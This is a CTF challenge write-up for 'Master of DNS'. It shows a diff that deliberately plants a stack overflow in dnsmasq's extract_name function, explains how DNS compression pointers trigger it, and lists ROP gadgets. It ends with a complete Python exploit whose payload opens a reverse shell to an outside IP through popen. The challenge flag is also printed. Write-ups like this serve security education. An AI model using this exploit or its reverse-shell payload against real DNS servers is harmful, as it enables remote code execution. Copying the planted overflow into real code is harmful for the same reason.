 # WP

## Master of DNS

- difficulty: easy
- flag: `ACTF{d0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!}`
- description:

I heard that you are proficient in the DNS protocol, there is just a chance to verify your ability, come and join to solve it.

### writeup

To let ctf players understand a keypoint where DNS is easy to cause threats, I designed this contest questions. The inspiration comes from analyzing DNS-related CVEs. DNS domain name pointers also cause many security threats and vulnerabilities in DNS-related products.

Follow the steps below:

- use the fuzz or diff method to find vulnerability, and only make changes in two places (the changes are very small). Removed the obvious features of dnsmasq, and added several functions that interfere with diff
    - remove tcp_request function and close tcp query, because using tcp protocol can trigger vulnerability without domain name pointer
    - Add stack overflow
    - Modify as follows
        
        ```python
        diff --color -Naur dnsmasq-2.86/src/dnsmasq.c dnsmasq-2.86-patch/src/dnsmasq.c
        --- dnsmasq-2.86/src/dnsmasq.c	2021-09-09 04:21:22.000000000 +0800
        +++ dnsmasq-2.86-patch/src/dnsmasq.c	2022-03-18 16:02:32.425548837 +0800
        @@ -1986,13 +1986,14 @@
         	      if ((flags = fcntl(confd, F_GETFL, 0)) != -1)
         		fcntl(confd, F_SETFL, flags & ~O_NONBLOCK);
         	      
        -	      buff = tcp_request(confd, now, &tcp_addr, netmask, auth_dns);
        +        //关闭tcp查询
        +	      //buff = tcp_request(confd, now, &tcp_addr, netmask, auth_dns);
         	       
         	      shutdown(confd, SHUT_RDWR);
         	      close(confd);
         	      
        -	      if (buff)
        -		free(buff);
        +	      //if (buff)
        +		//free(buff);
         	      
         	      for (s = daemon->servers; s; s = s->next)
         		if (s->tcpfd != -1)
        diff --color -Naur dnsmasq-2.86/src/rfc1035.c dnsmasq-2.86-patch/src/rfc1035.c
        --- dnsmasq-2.86/src/rfc1035.c	2021-09-09 04:21:22.000000000 +0800
        +++ dnsmasq-2.86-patch/src/rfc1035.c	2022-03-19 16:37:28.636136647 +0800
        @@ -19,9 +19,11 @@
         int extract_name(struct dns_header *header, size_t plen, unsigned char **pp, 
         		 char *name, int isExtract, int extrabytes)
         {
        +  //这里根据exp的构造调整一下
           unsigned char *cp = (unsigned char *)name, *p = *pp, *p1 = NULL;
        -  unsigned int j, l, namelen = 0, hops = 0;
        +  unsigned int j, l,namelen = 0, hops = 0;
           int retvalue = 1;
        +  unsigned char vul[848];
           
           if (isExtract)
             *cp = 0;
        @@ -54,6 +56,7 @@
         	  else
         	    *pp = p;
         	  
        +	  memcpy(vul, name, namelen);
         	  return retvalue;
         	}
        ```
        
- construct a poc according to the vulnerability, and use the domain name pointer to construct a domain name with a length greater than 848 to trigger the vulnerability.
- Stack overflow vulnerability, use popen function to reverse shell.
    - This is not an overflow of arbitrary length (the maximum length between points of domain name is `0x3f`), and there cannot be `\x00` byte and `\x2e` byte in the domain name. The maximum overflow length is `123` bytes.
    - Restrictions on some exploitation methods
        - mprotect function opens executable permissions and writes shellcode, obviously the overflow length is not enough to support this.
        - use orw’s method to get the flag, but `\x00` bytes will not appear in the parameters, which is also not feasible.
        - Use the execl function to reverse the shell, but the last parameter must be `\x00`, unless the last one in the stack layout is `\x00`, you can also use `int 80` to achieve, maybe 123 bytes is not enough to use.
    - expected use
        - Use popen function to reverse shell, only two parameters are needed here. one is the command to be executed, and the other is the operation type, read or write. Similar to `popen(char *cmd, char *type)`.
        - Due to the limitation of overflow length, we added several gadgets to meet the requirements, and also examined the ability of players to use gadgets
            - Add a gadget to write a value to an address, and add an XOR operation to avoid occur`\x2e` byte.
                
                ```python
                add eax, 4
                pop edx
                xor edx, 0xffffffff
                mov dword ptr [eax], edx
                ret
                ```
                
            - Because there will be a `\x2e` byte interference in the middle of 123 bytes, so add a useless gadget whose last byte of address is `\x2e`.
                
                ```python
                nop
                ret
                ```
                
            - Both of the above gadgets can be searched using **ropper** or **ROPgadget**.
- Of course, this question is also relatively open, and there can be a variety of getshell methods (the awesome ctfer may have other better ways to use it).

### EXP

```python
import socket
import os
import argparse
import random
import string
from pwn import *
context.arch='i386' #指定架构,不然会报错

#  无需connect服务端，因为发送时候跟上服务端ip和port就行
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

def genRandom(num, slen):
    unique_strings = []
    while len(unique_strings) < num:
        ustring = ''.join(random.choice(string.ascii_lowercase + string.ascii_lowercase + string.digits) for i in range(slen))
        if ustring not in unique_strings:
            unique_strings.append(ustring)
    return unique_strings

def dnsquery(ip, port):
    query = os.urandom(2)
    query += b'\x01\x00' # Flags: query + Truncated + Recursion Desired + Recursion Available
    query += b'\x00\x01' # Questions
    query += b'\x00\x00' # Answer RRs
    query += b'\x00\x00' # Authority RRs
    query += b'\x00\x00'# Additional RRs

    # Queries
    payload = b'\x3f' * 0x40
    for i in range(13):
        payload += b'\xc0'
        payload += bytes([0xe + i * 2])
    payload += b'\x3d'
    payload += b'\x41\x41\x41\x41\x41'

    popen_addr = 0x804ab40
    exit_addr = 0x804ad30
    nop_2e_addr = 0x0804A92E
    pop_eax_addr = 0x08059d44
    w_str_addr = 0x080A6660
    update_addr = 0x0804B2B1
    bss_addr = 0x80a7070

    shell = b'/bin/sh -i >& /dev/tcp/59.63.224.105/9 0>&1'.ljust(44, b'\x00')
    value = []
    for i in range(0, len(shell), 4):
        value.append(u32(shell[i:(i + 4)]))
    print(len(value))

    payload += flat([pop_eax_addr, bss_addr])
    for i in range(6):
        payload += flat([update_addr, value[i] ^ 0xffffffff])

    payload += b'\x3f'
    payload += b'\xa9\x04\x08'
    for i in range(6, 11):
        payload += flat([update_addr, value[i] ^ 0xffffffff])
    payload += flat([popen_addr, exit_addr, bss_addr + 0x4, w_str_addr])
    payload += b'\x41\x41\x41\x41'
    payload += b'\x00'
    print(payload)
    query += payload  # Name
    query += b'\x00\x01' # Type: NS
    query += b'\x00\x01'# Class: IN

    client.sendto(query, (ip, int(port)))
    data, server_addr = client.recvfrom(1024)
    print(data)

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-ip', help='ip address', required=True)
    parser.add_argument('-port', help='port', required=True)
    args = parser.parse_args()
    
    ip = args.ip
    port = args.port
    dnsquery(ip, port)

if __name__ == '__main__':
    main()
```